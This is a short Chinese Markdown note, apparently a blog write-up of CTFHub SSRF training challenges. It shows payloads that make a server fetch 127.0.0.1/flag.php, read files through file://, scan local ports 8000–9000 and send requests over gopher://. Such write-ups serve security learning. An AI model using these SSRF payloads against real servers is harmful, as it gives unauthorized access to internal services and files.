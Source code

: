 ```yaml
---
# 这是页面的图标
icon: token
# 这是文章的标题
title: CTFHub-SSRF
# 设置作者
author: lhz
# 设置写作时间
time: 2021-08-24
# 一个页面只能有一个分类
category: 安全工具
# 一个页面可以有多个标签
tag:
  - CTF
  - 信息收集

comment: false
---
```


## 内网访问
  直接构造访问请求,获取flag
  ```url
  /?url=127.0.0.1/flag.php
  ```
## 伪协议读取文件
  根据题目提示使用file://协议，尝试一般web目录/var/www/html/  
  ![file](/assets/img/ctf/file.png)
## 端口扫描
  提示端口范围8000到9000
  ```url
  /?url=127.0.0.1:8000
  ```
  使用burpsuite对端口进行爆破，即可得到端口，访问获取flag
## POST请求
  gopher协议是SSRF中常用的一个协议：
  ```url
  gopher://IP:port/_{TCP/IP数据流}
  ```
  使用gopher访问flag.php
